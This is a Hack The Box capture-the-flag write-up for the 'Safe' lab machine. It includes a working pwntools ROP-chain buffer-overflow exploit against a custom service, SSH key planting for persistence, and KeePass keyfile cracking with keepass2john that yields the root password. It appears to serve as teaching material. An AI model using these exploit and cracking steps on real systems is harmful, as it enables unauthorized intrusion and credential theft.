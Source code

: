 # Hack The Box - Safe

![](Images/safe.png)



### <u>Port Scan</u>

We are starting with a **nmap** to scan for open ports with the following command:

```
~$ nmap -sC -sV -p- 10.10.10.147
```

![](Images/1.png)



The server has 3 open ports:

1. Apache Web Server -> 80

2. OpenSSH Server -> 22

3. 1337 -> Custom application

   

### <u>Web Enumeration</u>

When we enter in the web application we see the default Debian Apache webpage but in the source code there is a comment with a hint that indicates that we can download the application that is running on port 1337 if we visit ***/myapp***.

![](Images/2.png)

![](Images/3.png)



### <u>Custom Application Analysis: myapp</u>

After downloading the application running on port 1337, we will analyze it to find any vulnerabilities that could compromise the server.

**Myapp** is a 64 bits application, dynamically linked and with no symbols stripped.

![](Images/4.png)



Seeing that the application returns the same string that we sent the first thing we could think is that the application is vulnerable to format string, but resulted not be vulnerable to format string vulnerability because after sending **%x** the application did not leak any memory address.

![](Images/5.png)

![](Images/6.png)



The next step was to check if the application is vulnerable to buffer overflow sending a long payload.

![](Images/7.png)



After check that the application is vulnerable to buffer overflow we are going to check if the binary has been compiled with any protection. **Myapp** has NX protection enabled so we need to do a ROP chain in oder to exploit this program because the stack is not executable.

![](Images/8.png)



### <u>Exploit Development</u>

1. **Calculate offset**:
   We need to create a pattern in order to calculate how many bytes we need to send to overwrite the **rip** register.

   ![](Images/9.png)

   

   We can control the program flow if we send 120 bytes.

   ![](Images/10.png)

   

2. **Generate ROP chain:**

   We are going to create a ROP chain that writes at **.bss** section a string and then we are going to call system function with that string in order to execute commands.

   First we will search a "pop rdi; ret" gadget.

   ```bash
   ~$ ropper -f myapp > gadgets.txt
   ~$ grep "pop rdi" gadgets.txt
   ```

   ![](Images/11.png)
   
   

   Then we will search in which memory position is the **.bss** section

   ![](Images/12.png)


   We will create the following script using **pwntools** to write in **.bss** the command we want to execute and then we will pass the memory address in which our string is stored to the function system

   ```python
   from pwn import *
   
   elf  = ELF('./myapp')
   context.terminal = ['tmux', 'sp', '-h']
   context.log_level = 'DEBUG'
   
   io= remote("10.10.10.147",1337)
   
   payload = flat(
               'A'*120,
               0x40120b,           # 0x000000000040120b : pop rdi ; ret
               0x404058,           #.bss
               elf.sym['gets'],
   	        0x40120b,                # 0x000000000040120b : pop rdi ; ret
               0x404058,             #.bss
               elf.sym['system'],
               endianness = 'little', word_size = 64, sign = False)
   io.recvline()
   io.sendline(payload)
   io.interactive()
   
   ```

   

3. **Execute Exploit:**

   We can execute any command but the program will finish after that, to avoid that we will execute "***/bin/bash***" in order to get a shell.
   
   ![](Images/13.png)

   

   

### <u>Privilege Escalation</u>

We decide to write our public key at "***/home/user/.ssh/authorized_keys***" to enter by SSH.

![](Images/14.png)

![](Images/15.png)



There are some interesting files in the user home, one Keepass database and six images files.

![](Images/16.png)



We decided to download those files and then try to crack the Keepass database, but without success.

![](Images/17.png)



After researching we discovered that it is possible to use a keyfile+password in a keepass database.

We can use keepass2john to generate a hash in order to crack the keepass database.

```bash
~$ keepass2john -k IMG* MyPasswords.kdbx >> Safe_Keepass_Keyfiles.txt
```

![](Images/18.png)



We cracked the hash so we can access to **MyPasswords** database using IMG_547.jpg as keyfile and **bullshit** as password in order to obtain the root password.

![](Images/19.png)



We use the password obtained in the keepass file to become root and obtain the root flag.

![](Images/20.png)

